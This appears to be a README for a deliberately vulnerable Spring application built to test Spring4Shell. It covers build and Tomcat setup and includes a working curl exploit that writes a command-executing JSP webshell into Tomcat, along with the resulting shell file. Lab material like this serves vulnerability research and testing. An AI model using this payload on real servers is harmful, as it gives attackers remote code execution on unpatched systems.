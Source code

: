 # Intentionally Vulnerable Spring Framework Application

This application is vulnerable to Spring4Shell.

## How do I use this?

First, this was tested on Ubuntu 21.04 (because I hate myself) and OpenJDK 11. Once you've accepted that, snag the code and build it.

```
git clone https://github.com/jbaines-r7/spring4shell_vulnapp.git
cd spring4shell_vulnapp
mvn package
```

That should generate a war file in `./target/`. You can load the war into Tomcat. How? Something like:

```
wget https://dlcdn.apache.org/tomcat/tomcat-8/v8.5.77/bin/apache-tomcat-8.5.77.zip
unzip apache-tomcat-8.5.77.zip
chmod +x apache-tomcat-8.5.77/bin/*.sh
cp target/vulnerable-1.0.0.0.war apache-tomcat-8.5.77/webapps/
./apache-tomcat-8.5.77/bin/startup.sh
```

It should be ready to test! The orginal Tomcat webshell exploit is good as far as I'm concerned:

```
curl -vv -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=" http://localhost:8080/vulnerable-1.0.0.0/rapid7
```

The file is dropped to disk:

```
cat ./apache-tomcat-8.5.77/webapps/ROOT/tomcatwar.jsp 
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))3D-1){ out.println(new String(b)); } } -
```

Done!

## Credit

This is a modified version of [Ramesh Fadatare's](https://github.com/RameshMF) [Spring MVC Tutorial: Helloworld Example](https://github.com/RameshMF/spring-mvc-tutorial/tree/master/springmvc5-helloworld-exmaple). Thank you Ramesh for the easy to use code.
